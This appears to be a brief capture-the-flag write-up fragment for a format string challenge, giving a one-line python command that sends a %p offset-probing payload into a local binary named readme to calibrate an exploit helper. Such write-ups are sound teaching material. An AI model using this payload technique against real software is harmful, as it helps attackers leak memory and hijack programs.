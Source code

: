 ## Solve explanation
This is a format string exploitation problem.
You can get the offset to calibrate the ```Fmstr.payload()``` function using the payload generated by,
```
python -c "print('ABCDEFGH|' + '|'.join(['%d:%%p' % i for i in range(1,40)]))" | ./readme | grep 4847
```
